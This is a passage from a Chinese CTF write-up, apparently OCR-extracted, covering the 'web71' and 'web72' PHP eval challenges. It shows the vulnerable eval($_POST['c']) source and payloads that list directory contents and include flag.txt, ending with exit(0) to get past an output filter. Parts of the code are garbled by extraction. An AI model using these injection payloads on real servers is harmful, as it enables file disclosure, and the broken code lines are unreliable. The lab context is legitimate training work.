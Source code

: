 c=var_export(scandir(''));
c=include('flag.txt');
web71~exit(0); 绕过后边代码
​
Warning error_reporting() has been disabled for security reasons in varwwwhtmlindex.php on line 14
​
Warning ini_set() has been disabled for security reasons in varwwwhtmlindex.php on line 15
​
Warning highlight_file() has been disabled for security reasons in varwwwhtmlindex.php on line 24
你要上天吗？
c=var_export(scandir(''));得到

 _()        .     _()        .     (  = '.',  = '..',  = '.',  = '',  = '',  = '',  = '.',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '',  = '', ) 你要上天吗？
......发现有个附件，下载打开：

php
​
error_reporting(0);
ini_set('display_errors', 0);
 你们在炫技吗？
if(isset($_POST['c'])){
$c=$_POST['c'];
eval($c);
$s=ob_get_contents();
ob_end_clean();
echopreg_replace([0-9][a-z]i,,$s);
}else{
highlight_file(__FILE__);
}
​


你要上天吗？
代码把输出的字母数字都转换为问号.

我们可以是服务端执行完我们的恶意 payload 后就停止运行 php 程序。

所以可以c=var_export(scandir(''));exit(0);使得后边的代码停止执行，从而不会被正则替换。

payload

c=var_export(scandir(''));exit(0);
c=include('flag.txt');exit(0);
web72~open_basedir
下载附件：

php
​
error_reporting(0);
ini_set('display_errors', 0);
 你们在炫技吗？
if(isset($_POST['c'])){
$c=$_POST['c'];
eval($c);
$s=ob_get_contents();
ob_end_clean();
echopreg_replace([0-9][a-z]i,,$s);
}else{
highlight_file(__FILE__);
}
​

